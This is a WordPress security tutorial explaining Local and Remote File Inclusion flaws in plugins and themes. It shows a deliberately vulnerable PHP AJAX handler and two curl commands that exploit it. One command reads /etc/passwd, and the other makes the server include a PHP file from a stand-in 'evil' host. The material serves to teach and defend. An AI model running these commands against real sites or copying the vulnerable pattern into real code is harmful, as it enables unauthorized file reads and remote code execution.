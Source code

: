 ```yaml
---
title: Local File Inclusion (LFI)
head:
    - tag: title
      content: Learn about Local File Inclusion (LFI)
contributors:
    - rafiem
    - dhakalananda
---
```




## Introduction

This article covers cases of possible LFI on WordPress. This includes improper file inclusion inside of the plugin/theme which can be used to gain RCE on the server.

<LinkCard
  title="Learn how to secure your code against Local File Inclusion"
  href="/academy/wordpress/securing-code/local-file-inclusion/"
/>

## Useful Functions

Several functions could be useful to identify a possible LFI vulnerability:

- [`include`](https://www.php.net/manual/en/function.include.php)
- [`include_once`](https://www.php.net/manual/en/function.include-once.php)
- [`require`](https://www.php.net/manual/en/function.require.php)
- [`require_once`](https://www.php.net/manual/en/function.require-once.php)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_render_lesson", "render_lesson_template");

function render_lesson_template(){
    $template_path      = urldecode( $_GET['template_path'] ?? '' );

    // For custom template return all list of lessons
    include $template_path;
    die();
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameter to trigger the `include` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=render_lesson&template_path=/etc/passwd
```

Below are some of the findings related to Local File Inclusion:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Security Vulnerability In OceanWP Theme \<= 3.4.1](https://patchstack.com/articles/subscriber-path-traversal-leading-to-local-file-inclusion-in-oceanwp-theme/)
- [Vulnerability In Rank Math SEO Plugin](https://patchstack.com/articles/authenticated-path-traversal-leading-to-local-file-inclusion-in-rank-math-seo-plugin/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version \<= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)

## Remote File Inclusion

If both the PHP options `allow_url_fopen` and `allow_url_include` are turned on in the PHP configuration, a remote file inclusion is possible which allows an even easier access to executing arbitrary PHP code in the server. It allows a malicious user to add the remote PHP file to be executed leading to code execution unlike LFI where a local file needs to be available.

## Example Cases

Similar to the above case, below is an example vulnerable scenario if the mentioned options are enabled in the PHP configuration:

```php
add_action("wp_ajax_nopriv_render_lesson", "render_lesson_template");

function render_lesson_template(){
    $template_path      = urldecode( $_GET['template_path'] ?? '' );

    // For custom template return all list of lessons
    include $template_path;
    die();
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the external link to the PHP code to trigger the `include` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=render_lesson&template_path=https://example.com/evil-file.php
```